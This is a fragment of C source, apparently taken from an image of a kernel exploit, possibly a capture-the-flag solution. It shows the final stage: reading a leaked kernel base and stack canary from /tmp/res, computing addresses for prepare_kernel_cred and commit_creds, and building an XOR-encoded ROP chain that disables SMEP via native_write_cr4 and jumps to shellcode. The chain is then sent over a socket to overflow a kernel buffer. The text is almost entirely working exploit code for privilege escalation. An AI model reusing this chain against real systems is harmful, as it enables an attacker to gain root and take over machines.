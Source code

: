 ```cpp
    }
    unsigned long canary,kernelbase;
    int fd;
    sleep(1);
    fd=open("/tmp/res",O_RDWR);
    if(fd==-1){
        printf("Open failed!\n");
        exit(0);
    }
    read(fd,&kernelbase,8);
    read(fd,&canary,8);
    close(fd);

    if(canary==0)
        goto LOOP;

    unsigned long* ptr=packet.buffer+0x100;
    prepare_kernel_cred=kernelbase-7649710;
    commit_creds=prepare_kernel_cred-976;
    unsigned long static_pre=0xffffffff8107d3a0;
    native_write_cr4=prepare_kernel_cred-static_pre+0xffffffff8104d9ad;
    poprdi=prepare_kernel_cred-static_pre+0xffffffff8124c735;
    msleep=prepare_kernel_cred-0xffffffffab87d3a0+0xffffffffab8c7eb0;

    printf("Canary :%lx\nKernelbase %lx\nCommit_creds:%lx\n",canary,kernelbase,commit_creds);

    ptr[0]=canary^0x6F6F6F6F6F6F6F6F;
    save_state();
    printf("Eflags %lx,SS %lx, CS %lx\n",user_rflags,user_ss,user_cs);
    unsigned long payload[]={
        (unsigned long)buf+0x10000,
        poprdi,
        0x6f0,
        (unsigned long)buf+0x10000,
        native_write_cr4,
        (unsigned long)buf+0x10000,
        (unsigned long)shellcode,
    };
    for(int i=0;i<sizeof(payload)/8;i++){
        ptr[5+i]=payload[i]^0x6F6F6F6F6F6F6F6F;
    }

    memset(packet.buffer,0,0x100);
    memcpy(packet.buffer+0x100+5*8+sizeof(payload),"\x13\x37",2);
    if (sendto(sock,&packet, bufferlen+6, 0, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("sendto");
    }
    return 0;
}
```
